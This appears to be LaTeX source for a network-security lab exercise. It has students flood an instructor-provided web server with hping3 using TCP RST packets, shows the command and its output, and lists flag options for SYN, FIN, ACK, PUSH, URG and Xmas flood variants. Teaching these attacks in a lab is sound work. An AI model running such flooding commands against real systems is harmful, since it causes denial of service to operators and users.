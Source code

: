 \documentclass[a4paper,11pt,notitlepage]{report}
\begin{document}
Receiving systems, and those en route to the service, should be checked for resources like CPU load, bandwidth, logging. Logging can also overload the logging infrastructure, so take care when configuring this in your own networks.


\chapter{Bonus: TCP other flooding 15min}


{\bf Objective:}\\
Start a webserver attack using TCP flooding tool hping3.

{\bf Purpose:}\\
Run various other common attacks

TCP mode is default, so no option needed.


{\bf Suggested method:}\\
Connect to the LAB network using Ethernet! Borrow a USB network card if you dont have one.

Start your Kali VM in bridged mode, try a basic TCP flooding attack against the server provided by the instructor, or your own Debian server.

\begin{alltt}
hping3 --flood -p 80 -R 10.0.45.12
\end{alltt}

You should see something like this:
\begin{alltt}\footnotesize
HPING 10.0.45.12: NO FLAGS are set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 10.0.45.12 hping statistic ---
352339 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
\end{alltt}


{\bf Hints:}\\
Common attacks use the SYN, as shown in previous exercise, but other popular
TCP attacks are RST, PUSH, URG, FIN, ACK attacks - setting one or more flags in the packets.

\begin{alltt}
-L  --setack     set TCP ack
-F  --fin        set FIN flag
-S  --syn        set SYN flag
-R  --rst        set RST flag
-P  --push       set PUSH flag
-A  --ack        set ACK flag
-U  --urg        set URG flag
-X  --xmas       set X unused flag (0x40)
-Y  --ymas       set Y unused flag (0x80)
\end{alltt}
\end{document}
